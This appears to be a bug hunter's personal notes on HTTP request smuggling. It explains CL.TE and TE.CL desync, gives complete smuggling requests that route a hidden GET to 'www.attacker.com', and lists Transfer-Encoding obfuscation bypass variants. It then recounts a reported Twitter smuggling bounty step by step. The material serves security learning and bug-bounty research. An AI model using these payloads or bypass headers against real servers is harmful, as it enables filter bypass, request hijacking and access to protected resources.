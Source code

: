 



---look for methodology


https://freedium.cfd/https://medium.com/@bugbounty_learners/today-how-to-get-500-bounty-on-hackerone-p3-345fa44f76a3


---
# HTTP Request Smuggling — Basics & Types:

#### **Understanding Words**

- [HTTP/2 & HTTP/1.1](https://www.digitalocean.com/community/tutorials/http-1-1-vs-http-2-what-s-the-difference "None")
- [Content-Length](https://reqbin.com/req/b3tqmhxa/post-request-with-content-length-header "None")
- [Transfer-Encoding](https://http.dev/transfer-encoding "None")

### **Basic of Vulnerability**

Most HTTP request smuggling vulnerabilities arise because the **HTTP/1** specification provides two different ways to specify where a request ends: the **Content-Length header** and the **Transfer-Encoding** header.

You need this two thoughts only

- First change the **HTTP/2** to **HTTP/1.1**
- Modify or rearrangeing **Content-Length** & **Transfer-Encoding**

### Lets start the game

First I discuss mostly vulnerable **CL.TE** type.

#### What is the CL.TE ?

Explanation of CL.TE **→ Content-Length.Transfer-Encoding**

- Front-end server :- **Content-Length**
- Back-end server :- **Transfer-Encoding**

![None](https://miro.medium.com/v2/resize:fit:700/1*0UxRriQCHdJH8Ip8YMU8ig.png)

						Example request:


```http
POST /api/sessions HTTP/1.1
Host: console.target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://console.helium.com/login
Content-Type: application/json
Content-Length: 109
DNT: 1
Connection: close
Cookie: __cfduid=dc0212a0b1dcc0fe5853ef4e6b6d669ff1588840067; amplitude_id_2b23c37c10c54590bf3f2ba705df0be6helium.com=eyJkZXZpY2VJZCI6ImJmZDVjNzFmLWVhMWUtNDlmZi1hZGYyLTNlYWY3OTBjNmU3YlIiLCJ1c2VySWQiOm51bGwsIm9wdE91dCI6ZmFsc2UsInNlc3Npb25JZCI6MTU4ODg0MDA3NzA2MiwibGFzdEV2ZW50VGltZSI6MTU4ODg0MTg5MDk3NiwiZXZlbnRJZCI6NywiaWRlbnRpZnlJZCI6Miwic2VxdWVuY2VOdW1iZXIiOjl9
Transfer-Encoding: chunked

39
{"session":{"email":"fdsfsd@fgd.jk","password":"sdfsdf"}}
00

GET / HTTP/1.1
Host: www.attacker.com
foo: x
```


**Bypass Tips for CL.TE**

```http
Transfer-Encoding: xchunked
Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked


X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked

```


_#type -2_

Second type is completely opposite of CL.TE if you understand the first type easily understand the **TE.CL**

#### **What is the TE.CL ?**

- **Front-end** server :- Transfer-Encoding
- **Back-end** server :- Content-Length

![None](https://miro.medium.com/v2/resize:fit:700/1*mA8iSSATzYlej-AXauQUaQ.png)

								Example request:


```http
POST /api/sessions HTTP/1.1
Host: console.target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://console.helium.com/login
Content-Type: application/json
Content-Length: 109
DNT: 1
Connection: close
Cookie: __cfduid=dc0212a0b1dcc0fe5853ef4e6b6d669ff1588840067; amplitude_id_2b23c37c10c54590bf3f2ba705df0be6helium.com=eyJkZXZpY2VJZCI6ImJmZDVjNzFmLWVhMWUtNDlmZi1hZGYyLTNlYWY3OTBjNmU3YlIiLCJ1c2VySWQiOm51bGwsIm9wdE91dCI6ZmFsc2UsInNlc3Npb25JZCI6MTU4ODg0MDA3NzA2MiwibGFzdEV2ZW50VGltZSI6MTU4ODg0MTg5MDk3NiwiZXZlbnRJZCI6NywiaWRlbnRpZnlJZCI6Miwic2VxdWVuY2VOdW1iZXIiOjl9
Transfer-Encoding: chunked

8
GET / HTTP/1.1
Host: www.attacker.com
foo: x
0

```

#### Impact

- Bypassing Security Filters
- Credentials Hijacking
- Replacement of Regular Response

---

##  Bounty $3000 http request smuggling in twitter.com

![[Pasted image 20250125235859.png]]

change request from GET to POST:


![[Pasted image 20250126000205.png]]

remove the encoding header and the connection header, and add the ***Transfer Encoding: chunked*** header at the end of the request:


![[Pasted image 20250126000359.png]]

(in this case we get an invalid response, but if we add a zero at the end of the response)

![[Pasted image 20250126000732.png]]

Now we will make a request with  twitter req.

intercept:

![[Pasted image 20250126001500.png]]


send to repeater:

![[Pasted image 20250126001542.png]]

Copy the full request and then return to the request you made before, and put the request after the '0':

![[Pasted image 20250126001630.png]]


now we simply delete the url encrypted message "hi this poc 1"  and add a plus '+' in between the spaces:

![[Pasted image 20250126001736.png]]


output message:  (this is just text, not malicious javascript)


![[Pasted image 20250126002506.png]]


**what is the potential impact of this vuln :** an attacker can inject a malicious HTTP request into the web server in order to bypass internal security controls. The point is that, most of the time, the web servers do not check for security mesures in a smuggled http request. In addition, some of the ressources available on the web server are often not accessible outsite of the web server itself. So performing a request like this can allow the attacker to ~={cyan}gain access to protected ressources such as admin panel etc...=~

---

<iframe width="1013" height="570" src="https://www.youtube.com/embed/gzM4wWA7RFo" title="$6,5k + $5k HTTP Request Smuggling mass account takeover - Slack + Zomato" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>